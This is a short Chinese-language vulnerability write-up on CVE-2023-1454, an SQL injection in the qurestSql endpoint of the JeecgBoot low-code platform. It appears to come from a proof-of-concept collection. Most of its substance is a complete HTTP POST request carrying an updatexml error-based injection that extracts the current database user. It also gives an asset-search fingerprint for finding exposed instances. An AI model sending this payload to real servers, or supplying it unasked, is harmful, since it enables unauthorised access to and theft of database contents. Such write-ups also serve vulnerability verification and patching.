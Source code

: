 # JeecgBoot 企业级低代码平台 qurestSql SQL注入漏洞 CVE-2023-1454

## 漏洞描述

JeecgBoot 企业级低代码平台 qurestSql接口存在 SQL注入漏洞，攻击者通过漏洞可以获取服务器数据库中的敏感数据，进一步攻击

## 漏洞影响

<a-checkbox checked>JeecgBoot 企业级低代码平台</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="JeecgBoot-企业级低代码平台"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1682420232051-1d3e49d3-7a22-4d59-ac7c-236c0bf1c43f.png)

验证POC

```php
POST /jeecg-boot/jmreport/qurestSql HTTP/1.1
Content-Type: application/json

{"apiSelectId":"1290104038414721025",
"id":"1' or '%1%' like (updatexml(0x3a,concat(1,(select current_user)),1)) or '%%' like '"}
```

![img](../../../.vuepress/public/img/1682420079923-7ddb27e1-df81-402f-a87e-7f06c2d119c9.png)